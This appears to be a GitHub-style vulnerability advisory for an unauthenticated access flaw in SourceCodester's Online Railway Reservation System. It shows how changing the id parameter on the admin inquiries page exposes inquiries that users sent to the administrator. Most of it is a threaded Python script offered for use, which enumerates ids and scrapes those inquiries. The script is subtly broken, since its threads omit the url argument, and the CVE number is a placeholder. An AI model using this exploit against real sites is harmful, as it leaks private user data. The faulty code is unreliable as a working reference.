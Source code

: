 # Broken Access Control (Improper Access Control) vulnerability was discovered in SourceCoderster Online Railway Reservation System 
---
## CVE-2024-XXXX

Vulnerability Analysis:
---

Affected product: [Railway Reservation System](https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html)

Affected Endpoint: `orrs/admin/inquiries/view_details.php?id=*`

Vulnerability Analysis:
---

A Broken Access Control (Improper Access Control) vulnerability was discovered in SourceCoderster Online Railway Reservation System  where a unauthorized user and directly access inquiries submitted by users to Administrator This can be Demonstrated with this steps:

Affected Product: [Online Railway Reservation System](https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html)
 

Exploitation:
---

1. Directly Pointing to the http://your_host/orrs/admin/inquiries/view_details.php?id=*  
2. By Changing the Id  parameter value a Unauthorized User can directly Access The Inquiry


OR USE this Python Script:

Python

```
import requests
import threading
from bs4 import BeautifulSoup

def send_request_and_extract_data(url,id):
   
    path = f"{url}/orrs/admin/inquiries/view_details.php?id={id}"
    response = requests.get(path)
    soup = BeautifulSoup(response.text, 'html.parser')

    data = []
    for dl in soup.find_all('dl'):
        for dt, dd in zip(dl.find_all('dt', class_='text-primary'), dl.find_all('dd', class_='pl-4')):
            data.append((dt.text, dd.text))

    print(f"ID: {id}")
    for item in data:
        print(f"{item[0]}: {item[1]}")
    print()

def main():
    url = input("Enter Url eg: http://localhost: ")
    from_id = int(input("Enter the starting ID: "))
    to_id = int(input("Enter the ending ID: "))

    threads = []
    for id in range(from_id, to_id + 1):
        t = threading.Thread(target=send_request_and_extract_data, args=(id,))
        threads.append(t)
        t.start()

    for t in threads:
        t.join()

if __name__ == "__main__":
    main()

```
Usage

```
python3 exp.py

```
